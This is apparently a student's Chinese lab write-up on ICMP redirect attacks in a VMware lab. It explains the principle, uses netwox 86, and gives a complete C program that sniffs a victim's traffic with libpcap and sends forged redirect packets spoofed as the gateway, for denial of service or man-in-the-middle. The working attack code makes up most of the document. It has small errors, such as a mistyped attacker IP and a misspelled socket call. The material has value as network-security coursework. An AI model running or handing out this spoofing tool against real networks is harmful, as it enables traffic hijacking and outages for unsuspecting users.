





# 实验一 ICMP 重定向攻击

## 实验原理：

 ICMP重定向信息是路由器向主机提供实时的路由信息，当一个主机收到ICMP重定向信息时，它就会根据这个信息来更新自己的路由表。由于缺乏必要的合法性检查，如果一个黑客想要被攻击的主机修改它的路由表，黑客就会发送ICMP重定向信息给被攻击的主机，让该主机按照黑客的要求来修改路由表。

在VMware虚拟环境中（Virtual Box不同），.2是充当网关的默认地址（通过route命令可以查看当前的网关和路由信息）；所以攻击者可以冒充.2发出重定向包，通知受害者修改自己的网关为攻击者指定的gateway地址；如果伪造的gateway是自身，可以实现中间人攻击或者DOS攻击（没有启动IP转发功能）；如果是随意IP（不能到达或不负责转发），则可以导致DOS攻击。

## 实验环境：

启动两台虚拟机，一台作为攻击者，一台作为被攻击者。

## 实验目标：

1. 体验ICMP重定向攻击的效果，加深对ICMP协议功能的理解。

2. 练习使用Raw Socket编程，学习构造包括包头部分的数据包。 

## 实验步骤：

1. 使用netwox体会实验效果，使用`netwox 86`发送ICMP重定向包，

2. 在充分了解实验原理的基础上，自己使用`raw socket`，写出来一个`icmp redirect`包，达到使受害者不能正常上网的目的。 

   1. 关于raw socket语法，可以使用`man socket；man raw；man packet`等查看细节，可以运行参考代码，并结合wireshark抓包查看代码生成的数据包。

   2.  原始套接字是一个特殊的套接字类型,但它的创建方式跟TCP/UDP创建方法几乎是一摸一样,例如,通过  

      ```java
      int sockfd = socktet(AF_INET， SOCK_RAW, IPPROTO_ICMP);
      ```

      就可以创建一个原始套接字。 这种类型的原始套接字可以使用户自行生成IP数据包中的ICMP数据部分。

      参考`myping0.c`：理解如何生成ICMP原始包

      参考`myping2.c`：使用IPPROTO_RAW参数可以填充包括IP头部的内容。

      参考`myping6.c`：使用正确的checksum函数计算，发送正确的ping包。可以接收并打印imcp。

      至此，已经能够成功构造ping包，可以在此基础上进一步生成ICMP重定向包。

   3. IP头部和ICMP头部的数据结构可以参考头文件查看详细内容。

   4. 基于实验一抓包信息构造ICMP重定向包中的附加原始数据包的内容。

3. 伪造icmp redirect的过程大致如下。已经将每个函数的解释写在了**注释**里。

   1. `pcap`获取默认的监听设备

      ```c
      		char *dev, errBuf[PCAP_ERRBUF_SIZE];
          // 获取默认的监听设备 ens33
          dev = pcap_lookupdev(errBuf);
      
          if (dev == NULL){
              printf("error: %s\n", errBuf);
          }
          else{
              printf("Device: %s\n", dev);
          }
      ```

      

   2. 通过`pcap`抓包

      ```c
          /** 
           * 打开设备进行嗅探
           * params: char *device, int snaplen, int promisc, int to_ms,char *ebuf
           * (dev-设备名称，捕获的最大字节数，1-混杂模式，0-没有读取超时，errBuf-错误信息）
           * return: pcap_t
          **/
          pcap_t *handler = pcap_open_live(dev, BUFFER_SIZE, 1, 0, errBuf);
          if (handler == NULL)
          {
              printf("can't open device %s:%s\n", dev, errBuf);
              exit(-1);
          }
      		
          struct bpf_program filter;
          char filterstr[50] = "";
          sprintf(filterstr, "src host %s", TARGET_IP);
          /** 
           * 编译过滤
           * params: pcap_t *p, struct bpf_program *fp, char *str, int optimize, bpf_u_int32 netmask
           * (handler-会话句柄, &filter-过滤器编译版本的位置, filterstr-表达式, 1-优化, 0-掩码）
           * return: -1/other
          **/
          pcap_compile(handler, &filter, filterstr, 0, 0);
          /** 
           * 设置通信通信过滤器
           * params: pcap_t *p, struct bpf_program *fp
           * (handler-会话句柄，&filter-过滤器编译版本的位置）
           * return: -1/other
          **/
          pcap_setfilter(handler, &filter);
          /** 
           * 开始抓包
           * params: pcap_t *p, int cnt, pcap_handler callback, u_char *user
           * (handler-会话句柄，-1-持续嗅探，got_packet-回调函数，NULL）
           * return: -1/other
          **/
          pcap_loop(handler, -1, got_packet, NULL);
      ```

      

   3. 在回调函数`got_packet`中创建套接字`sockfd`，并开启`IP_HDRINCL`选项，允许我们自己设置头部

      ```c
      /** 
       * pcap_loop()的回调函数
       * params: u_char *args, const struct pcap_pkthdr *header,  const u_char *packet
       * (arg-pcap-loop的最后一个参数，pkthdr-pcap头包含何时嗅探数据包的信息和大小，packet-数据包）
       * return: void
      **/
      void got_packet(__u_char *arg, const struct pcap_pkthdr *pkthdr, const __u_char *packet)
      {
          int sockfd; //socket描述符
          const int on = 1;
          /** 
           * socket 创建套接字
           * params: int domain, int type, int protocol
           * (AF_INET-IPv4网络通信, SOCK_RAW-原始套接字类型, IPPROTO_ICMP-第三层通信协议）
           * return: void
          **/
          if ((sockfd = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP)) < 0)
          {
              printf("create sockfd error\n");
              exit(-1);
          }
          /** 
           * 开启IP_HDRINCL选项，由我们自己填充头部
           * params: sockfd, IPPROTO_IP, IP_HDRINCL, void *, socklen_t
           * (sockfd-套接字描述符, IPPROTO_IP-类型为IPv4套接字, IP_HDRINCL-由我们自己填充IP头部, &on-指向要设置的新值的缓冲区, sizeof(int)-新值大小）
           * return: -1/other
          **/
          if (setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(int)) < 0)
          {
              printf("set socket option error\n");
              exit(-1);
          }
          // 自己的ping程序
          icmp_redirect(sockfd, packet, 0);
      }
      ```

      

   4. 在回调函数`got_packet`中调用函数`icmp_redirect`发送自己构建的redirect包

      ```c
      icmp_redirect(sockfd, packet, 0);
      ```

      

   5. 手动填充ip头部

      ```c
          //填充ip头
          packet.ip.version = 4; //版本号
          packet.ip.ihl = 5; //header length
          packet.ip.tos = 0; //服务类型
          packet.ip.tot_len = htons(56); //总长度
          packet.ip.id = getpid(); //标识
          packet.ip.frag_off = 0; //分片标志
          packet.ip.ttl = 255; //生存时间
          packet.ip.protocol = IPPROTO_ICMP; //协议
          packet.ip.check = 0; //首部检校和
          packet.ip.saddr = inet_addr(GATEWAY_IP); // 源地址伪造为网关
          packet.ip.daddr = inet_addr(TARGET_IP);  //目的地址将伪造重定向包发给受害者的地址
      ```

   6. 手动填充icmp头部

      ```c
          //填充icmp头
          packet.icmp.type = ICMP_REDIRECT;      // Redirect
          packet.icmp.code = ICMP_REDIRECT_HOST; // Redrect for host
          packet.icmp.checksum = 0; //检校和
          packet.icmp.un.gateway = inet_addr(SOURCE_IP);
      ```

   7. 发送

      ```c
          //构造目的地址
      		struct sockaddr_in target;
          target.sin_family = AF_INET;
          target.sin_addr.s_addr = inet_addr(TARGET_IP);
          /** 
           * sendto 将数据由指定的socket传给对方主机
           * params: int s, const void * msg, int len, unsigned int flags, const struct sockaddr * to, int tolen
           * (发送端套接字描述符，&packet-数据内容，待发送数据长度IP头+ICMP头（8）+IP首部+IP前8字节，flag标志位，目的网络地址，地址长度）
           * return: -1/size
          **/
          sendto(sockfd, &packet, 56, 0, (struct sockaddr *)&target, sizeof(target));
      ```

## 实验结果

1. 实验一使用`netwox 86`发送ICMP重定向包，结果如下。

   1. source机发送命令如下

      

   2. target上网情况如下

      

   3. target机抓重定向包

      

2. 实验二使用`raw socket`伪造`icmp redirect`包结果如下。

   1. source机发送命令如下

      

   2. target上网情况如下

      

   3. target机抓重定向包

      

## 实验代码

```c
#include <pcap.h>
#include <time.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <netinet/in.h>
#include <netinet/ip_icmp.h>
#include <arpa/inet.h>
#include <sys/socket.h>
#include <unistd.h>

#define MAX 1024
#define SIZE_ETHERNET 14
#define BUFFER_SIZE 65535

const unsigned char *TARGET_IP = "192.168.31.98"; //攻击对象的ip
const unsigned char *GATEWAY_IP = "192.168.31.2";  //源网关ip
const unsigned char *SOURCE_IP = "192.16.31.148";  //攻击者ipo

/*计算校验和*/
unsigned short in_cksum(unsigned short *addr, int len)
{
    int sum = 0;
    unsigned short res = 0;
    while (len > 1)
    {
        sum += *addr++;
        len -= 2;
    }
    if (len == 1)
    {
        *((unsigned char *)(&res)) = *((unsigned char *)addr);
        sum += res;
    }
    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    res = ~sum;
    return res;
}

void icmp_redirect(int sockfd, const unsigned char *data, int datalen)
{
    printf("icmp_redirect to %s\n",SOURCE_IP);
    struct sockaddr_in target;
    struct packet
    {
        struct iphdr ip;
        struct icmphdr icmp;
        char data[28];
    } packet;
    // 清 0
    bzero(&packet, sizeof(packet));
    //填充ip头
    packet.ip.version = 4; //版本号
    packet.ip.ihl = 5; //header length
    packet.ip.tos = 0; //服务类型
    packet.ip.tot_len = htons(56); //总长度
    packet.ip.id = getpid(); //标识
    packet.ip.frag_off = 0; //分片标志
    packet.ip.ttl = 255; //生存时间
    packet.ip.protocol = IPPROTO_ICMP; //协议
    packet.ip.check = 0; //首部检校和
    packet.ip.saddr = inet_addr(GATEWAY_IP); // 源地址伪造为网关
    packet.ip.daddr = inet_addr(TARGET_IP);  //目的地址将伪造的重定向包发给受害者的地址

    //填充icmp头
    packet.icmp.type = ICMP_REDIRECT;      // Redirect
    packet.icmp.code = 1; // Redrect for host
    packet.icmp.checksum = 0; //检校和
    packet.icmp.un.gateway = inet_addr(SOURCE_IP);
    // 去掉数据链路层头部后，拷贝剩余28字节
    memcpy(packet.data, (data + SIZE_ETHERNET), 28);
    packet.ip.check = in_cksum((unsigned short *)&packet.ip, sizeof(packet.ip));
    packet.icmp.checksum = in_cksum((unsigned short *)&packet.icmp, sizeof(packet.icmp) + 28);
    //构建目的地址
    target.sin_family = AF_INET;
    target.sin_addr.s_addr = inet_addr(TARGET_IP);
    /** 
     * sendto 将数据由指定的socket传给对方主机
     * params: int s, const void * msg, int len, unsigned int flags, const struct sockaddr * to, int tolen
     * (发送端套接字描述符，&packet-数据内容，待发送数据长度IP头+ICMP头（8）+IP首部+IP前8字节，flag标志位，目的网络地址，地址长度）
     * return: -1/size
    **/
    sendto(sockfd, &packet, 56, 0, (struct sockaddr *)&target, sizeof(target));
}

/** 
 * pcap_loop()的回调函数
 * params: u_char *args, const struct pcap_pkthdr *header,  const u_char *packet
 * (arg-pcap-loop的最后一个参数，pkthdr-pcap头包含何时嗅探数据包的信息和大小，packet-数据包）
 * return: void
**/
void got_packet(__u_char *arg, const struct pcap_pkthdr *pkthdr, const __u_char *packet)
{
    int sockfd; //socket描述符
    const int on = 1;
    /** 
     * socket 创建套接字
     * params: int domain, int type, int protocol
     * (AF_INET-IPv4网络通信, SOCK_RAW-原始套接字类型, IPPROTO_ICMP-第三层通信协议）
     * return: void
    **/
    if ((sockfd = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP)) < 0)
    {
        printf("create sockfd error\n");
        exit(-1);
    }
    /** 
     * 开启IP_HDRINCL选项，由我们自己填充头部
     * params: sockfd, IPPROTO_IP, IP_HDRINCL, void *, socklen_t
     * (sockfd-套接字描述符, IPPROTO_IP-类型为IPv4套接字, IP_HDRINCL-由我们自己填充IP头部, &on-指向要设置的新值的缓冲区, sizeof(int)-新值大小）
     * return: -1/other
    **/
    if (setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(int)) < 0)
    {
        printf("set socket option error\n");
        exit(-1);
    }
    // 自己的ping程序
    icmp_redirect(sockfd, packet, 0);
}

int main()
{
    char *dev;
    char errBuf[PCAP_ERRBUF_SIZE];
    bpf_u_int32 mask;
	bpf_u_int32 net;
    // 获取默认的监听设备 ens33
    dev = pcap_lookupdev(errBuf);

    if (dev == NULL)
    {
        printf("error: %s\n", errBuf);
    }
    else
    {
        printf("Device: %s\n", dev);
    }

    if (pcap_lookupnet(dev, &net, &mask, errBuf) == -1) {
			fprintf(stderr, "Couldn't get netmask for device %s: %s\n", dev, errBuf);
			net = 0;
			mask = 0;
		}
    /** 
     * 打开设备进行嗅探
     * params: char *device, int snaplen, int promisc, int to_ms,char *ebuf
     * (dev-设备名称，捕获的最大字节数，1-混杂模式，0-没有读取超时，errBuf-错误信息）
     * return: pcap_t
    **/
    pcap_t *handler = pcap_open_live(dev, BUFFER_SIZE, 1, 1000, errBuf);
    if (handler == NULL)
    {
        printf("can't open device %s:%s\n", dev, errBuf);
        exit(-1);
    }else{
        printf("open device %s\n", dev);
    }

    struct bpf_program filter;
    char filterstr[50] = {0};
    sprintf(filterstr, "src host %s", TARGET_IP);
    /** 
     * 编译过滤
     * params: pcap_t *p, struct bpf_program *fp, char *str, int optimize, bpf_u_int32 netmask
     * (handler-会话句柄, &filter-过滤器编译版本的位置, filterstr-表达式, 1-优化, 0-掩码）
     * return: -1/other
    **/
    pcap_compile(handler, &filter, filterstr, 0, net);
    /** 
     * 设置通信通信过滤器
     * params: pcap_t *p, struct bpf_program *fp
     * (handler-会话句柄，&filter-过滤器编译版本的位置）
     * return: -1/other
    **/
    pcap_setfilter(handler, &filter);
    /** 
     * 开始抓包
     * params: pcap_t *p, int cnt, pcap_handler callback, u_char *user
     * (handler-会话句柄，-1-持续嗅探，got_packet-回调函数，NULL）
     * return: -1/other
    **/
    if(pcap_loop(handler, -1, got_packet, NULL)<0){
        printf("pcap loop error\n");
    }
    return 0;
}
```


